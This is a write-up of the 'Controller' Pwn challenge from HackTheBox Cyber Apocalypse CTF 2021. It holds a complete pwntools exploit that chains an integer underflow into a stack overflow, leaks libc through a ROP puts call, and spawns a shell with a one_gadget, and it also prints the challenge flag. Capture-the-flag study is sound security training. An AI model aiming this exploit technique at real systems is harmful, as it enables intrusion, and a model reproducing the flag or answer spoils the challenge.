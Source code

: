 ```yaml
---
name: Controller (2021)
event: HackTheBox Cyber Apocalypse CTF 2021
category: Pwn
description: Writeup for Controller (Pwn) - HackTheBox Cyber Apocalypse CTF (2021) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Controller

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/6DRuT1JBmBE/0.jpg)](https://youtu.be/6DRuT1JBmBE?t=30s "HTB Cyber Apocalypse CTF 2021: Controller")

## Challenge Description

> The extraterrestrials have a special controller in order to manage and use our resources wisely, in order to produce state of the art technology gadgets and weapons for them. If we gain access to the controller's server, we can make them drain the minimum amount of resources or even stop them completeley. Take action fast!

## Solution

```py
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Perform subtraction of two negatives to get +65338
def calc(p):
    p.sendlineafter(': ', '-65338')
    p.sendline('-130676')
    p.sendlineafter('>', '2')

# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

# Binary filename
exe = './controller'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (warning/info/debug)
context.log_level = 'info'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Swap between local and remote libc
# libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')  # Local
libc = ELF('libc.so.6')  # Remote

# Pass in pattern_size, get back EIP/RIP offset
offset = 40

# Start program
io = start()

# Generate 65338 in calculator
calc(io)

# Leak got.puts using ROP object
rop = ROP(elf)
rop.puts(elf.got.puts)
rop.calculator()

# Send the payload
io.sendlineafter('>', flat({offset: rop.chain()}))
io.recvline()

# Get our leaked got.write address and format it
got_puts = unpack(io.recvline()[:6].ljust(8, b"\x00"))
info("leaked got_puts: %#x", got_puts)

# Set the libc_base_addr using the offsets
libc.address = got_puts - libc.symbols.puts
info("libc_base: %#x", libc.address)

# Generate 65338 in calculator
calc(io)

# Send the payload - one_gadget
io.sendlineafter('>', flat({offset: libc.address + 0x4f3d5}))

# Got Shell?
io.interactive()
```

Flag: `CHTB{1nt3g3r_0v3rfl0w_s4v3d_0ur_r3s0urc3s}`
